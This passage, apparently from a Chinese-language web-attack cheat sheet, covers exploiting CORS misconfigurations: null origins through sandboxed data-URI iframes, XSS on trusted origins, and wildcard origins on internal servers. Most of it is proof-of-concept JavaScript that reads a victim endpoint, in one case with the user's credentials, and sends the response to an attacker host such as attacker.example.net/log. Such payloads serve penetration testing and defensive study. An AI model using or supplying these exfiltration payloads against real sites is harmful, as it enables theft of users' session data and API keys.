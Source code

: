 #### 概念验证

可以通过将攻击代码放入使用data URI方案的iframe中来利用此漏洞。如果使用data URI方案，浏览器将在请求中使用`null` origin：

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### 受信任源的XSS

如果应用程序确实实现了严格的白名单机制，上述利用代码将不起作用。但如果您在受信任的源上发现XSS漏洞，可以注入上述利用代码来利用CORS。

```ps1
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### 无凭据的通配符Origin

如果服务器响应通配符origin `*`，**浏览器将永远不会发送cookies**。但是，如果服务器不需要身份验证，仍然可以访问服务器上的数据。这种情况可能发生在无法从互联网访问的内部服务器上。攻击者的网站可以渗透到内部网络，无需身份验证即可访问服务器的数据。

```powershell
* 是唯一的通配符origin
https://*.example.com 是无效的
```

#### 易受攻击的实现

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### 概念验证

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```
